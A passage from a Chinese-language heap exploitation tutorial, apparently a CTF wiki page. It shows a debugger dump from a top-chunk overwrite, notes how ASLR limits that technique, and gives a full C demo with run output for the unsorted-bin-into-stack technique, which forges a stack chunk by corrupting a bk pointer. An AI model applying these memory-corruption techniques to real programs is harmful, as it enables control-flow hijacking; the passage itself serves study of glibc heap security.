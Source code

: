 再次 malloc，将目标地址包含进来即可，现在我们就成功控制了目标内存：
```
gef➤  x/12gx 0x602010+0xfffffffffffff050
0x601060:	0x4141414141414141	0x4141414141414141
0x601070:	0x4141414141414141	0x0000000000000041  <-- chunk 2
0x601080 <bss_var>:	0x2073692073696854	0x676e697274732061  <-- target
0x601090 <bss_var+16>:	0x6577207461687420	0x6f7420746e617720
0x6010a0 <bss_var+32>:	0x6972777265766f20	0x00000000002e6574
0x6010b0:	0x0000000000000000	0x0000000000000f69  <-- top chunk
```
该技术的缺点是会受到 ASLR 的影响，因为如果攻击者需要修改指定位置的内存，他首先需要知道当前 top chunk 的位置以构造合适的 malloc 大小来转移 top chunk。而 ASLR 将使堆内存地址随机，所以该技术还需同时配合使用信息泄漏以达成攻击。

#### unsorted_bin_into_stack
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    unsigned long stack_buf[4] = {0};

    unsigned long *victim  = malloc(0x80);
    unsigned long *p1 = malloc(0x10);
    fprintf(stderr, "Allocating the victim chunk at %p\n", victim);

    // deal with tcache
    // int *k[10], i;
    // for (i = 0; i < 7; i++) {
    //     k[i] = malloc(0x80);
    // }
    // for (i = 0; i < 7; i++) {
    //     free(k[i]);
    // }

    free(victim);
    fprintf(stderr, "Freeing the chunk, it will be inserted in the unsorted bin\n\n");

    stack_buf[1] = 0x100 + 0x10;
    stack_buf[3] = (unsigned long)stack_buf;        // or any other writable address
    fprintf(stderr, "Create a fake chunk on the stack\n");
    fprintf(stderr, "fake->size: %p\n", (void *)stack_buf[1]);
    fprintf(stderr, "fake->bk: %p\n\n", (void *)stack_buf[3]);

    victim[1] = (unsigned long)stack_buf;
    fprintf(stderr, "Now we overwrite the victim->bk pointer to stack: %p\n\n", stack_buf);

    fprintf(stderr, "Malloc a chunk which size is 0x110 will return the region of our fake chunk: %p\n", &stack_buf[2]);

    unsigned long *fake = malloc(0x100);
    fprintf(stderr, "malloc(0x100): %p\n", fake);
}
```
```
$ gcc -g unsorted_bin_into_stack.c 
$ ./a.out 
Allocating the victim chunk at 0x17a1010
Freeing the chunk, it will be inserted in the unsorted bin

Create a fake chunk on the stack
fake->size: 0x110
fake->bk: 0x7fffcd906480

Now we overwrite the victim->bk pointer to stack: 0x7fffcd906480

```